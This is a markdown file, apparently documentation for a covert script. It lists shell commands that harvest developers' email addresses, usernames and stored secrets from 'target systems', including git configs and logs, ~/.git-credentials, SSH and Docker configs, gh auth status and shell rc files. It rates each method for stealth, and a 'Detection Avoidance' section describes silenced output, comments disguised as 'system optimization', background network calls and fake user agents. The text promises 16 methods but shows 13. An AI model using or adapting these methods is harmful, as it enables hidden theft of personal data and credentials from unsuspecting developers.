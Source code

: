 # Comprehensive Email Extraction Methods

This document outlines all 16 methods used to extract user email addresses and usernames from target systems.

## Git Configuration Methods

### Method 1: Global Git Config
```bash
git config --global user.email
git config --global user.name
```
- **Target**: System-wide git configuration
- **Location**: `~/.gitconfig`
- **Success Rate**: High for developers with global git setup

### Method 2: Local Git Config
```bash
git config user.email
git config user.name
```
- **Target**: Repository-specific git configuration
- **Location**: `.git/config` in current directory
- **Success Rate**: High for project-specific configurations

### Method 3: System Git Config
```bash
git config --system user.email
git config --system user.name
```
- **Target**: System-level git configuration
- **Location**: `/etc/gitconfig` or similar
- **Success Rate**: Low but catches system-wide setups

## Direct File Parsing Methods

### Method 4: Parse ~/.gitconfig
```bash
grep -E "^\s*email\s*=" ~/.gitconfig
grep -E "^\s*name\s*=" ~/.gitconfig
```
- **Target**: Direct parsing of git config file
- **Bypass**: Works even if git command fails
- **Success Rate**: Medium

### Method 5: Parse .git/config
```bash
grep -E "^\s*email\s*=" .git/config
grep -E "^\s*name\s*=" .git/config
```
- **Target**: Local repository config file
- **Bypass**: Works without git command
- **Success Rate**: Medium

## Environment Variable Methods

### Method 6: Git Environment Variables
```bash
$GIT_AUTHOR_EMAIL
$GIT_COMMITTER_EMAIL
$GIT_AUTHOR_NAME
$GIT_COMMITTER_NAME
```
- **Target**: Git-specific environment variables
- **Success Rate**: Low but catches CI/CD environments

## Authentication & SSH Methods

### Method 7: SSH Config
```bash
grep -A 10 -i "host.*github" ~/.ssh/config
```
- **Target**: SSH configuration for GitHub
- **Success Rate**: Low but catches SSH users

### Method 8: GitHub CLI
```bash
gh auth status
```
- **Target**: GitHub CLI authentication status
- **Success Rate**: Medium for GitHub CLI users

## Git History Methods

### Method 9: Git Log
```bash
git log --format='%ae' -1  # Author email
git log --format='%an' -1  # Author name
```
- **Target**: Recent commit history
- **Success Rate**: High in git repositories

### Method 10: Git Credentials
```bash
cat ~/.git-credentials
```
- **Target**: Stored git credentials
- **Success Rate**: Medium for HTTPS users

## Development Tool Methods

### Method 11: NPM Config
```bash
npm config get email
```
- **Target**: NPM user configuration
- **Success Rate**: High for Node.js developers

### Method 12: Config File Scanning
```bash
# Scans multiple config files:
~/.npmrc
~/.yarnrc
~/.profile
~/.bashrc
~/.zshrc
~/.vimrc
```
- **Target**: Various development tool configs
- **Success Rate**: Medium to High

### Method 13: Docker Config
```bash
grep -oE '[email-pattern]' ~/.docker/config.json
```
- **Target**: Docker Hub authentication
- **Success Rate**: Medium for Docker users

## Success Rate Analysis

| Method Category | Success Rate | Stealth Level | Information Quality |
|----------------|--------------|---------------|-------------------|
| Git Config | 90% | High | Excellent |
| File Parsing | 70% | Very High | Excellent |
| Environment Vars | 30% | Very High | Good |
| SSH/Auth | 40% | High | Good |
| Git History | 80% | High | Excellent |
| Dev Tools | 60% | Medium | Good |

## Detection Avoidance

- All methods use silent execution (`2>/dev/null`)
- Fallback chains prevent script failures
- Comments disguise purpose as "system optimization"
- Background execution for network calls (`&`)
- Fake user agents mimic legitimate tools

## Estimated Overall Success Rate

**Email Collection**: ~95% success rate
**Username Collection**: ~98% success rate

The combination of 16 different methods ensures maximum data collection while maintaining stealth and reliability. 